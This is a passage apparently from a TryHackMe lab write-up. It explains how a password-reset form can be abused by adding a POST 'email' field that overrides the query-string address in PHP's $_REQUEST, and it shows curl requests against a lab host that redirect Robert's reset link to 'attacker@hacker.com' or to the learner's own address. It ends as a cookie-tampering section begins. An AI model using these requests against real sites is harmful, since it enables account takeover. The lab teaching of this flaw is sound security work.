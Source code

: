 In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string request as a GET field.  

Let's illustrate this by using the curl tool to manually make the request to the webserver.  

## **Curl Request 1:*

```shell-session
user@tryhackme$ curl 'http://10.10.115.220/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

We use theÂ `-H`Â flag to add an additional header to the request. In this instance, we are setting theÂ `Content-Type`Â toÂ `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request.  

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in theÂ PHPÂ variableÂ `$_REQUEST`.

TheÂ PHPÂ `$_REQUEST`Â variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favors POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.  

## **Curl Request 2:**

```shell-session
user@tryhackme$ curl 'http://10.10.115.220/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3d97e3e37bf9e4db4f95f4f945a7e290.png)

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format ofÂ `{username}`**@customer.acmeitsupport.thm**  

Now rerunningÂ **Curl Request 2**Â but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.

**Curl Request 2 (but using your @acmeitsupport.thm account):**

```shell-session
user@tryhackme:~$ curl 'http://10.10.115.220/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```


# COOKIE TAMPERING

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges. If you need a refresher on cookies, check out theÂ [HTTPÂ In Detail](https://tryhackme.com/room/httpindetail)Â room on task 6.
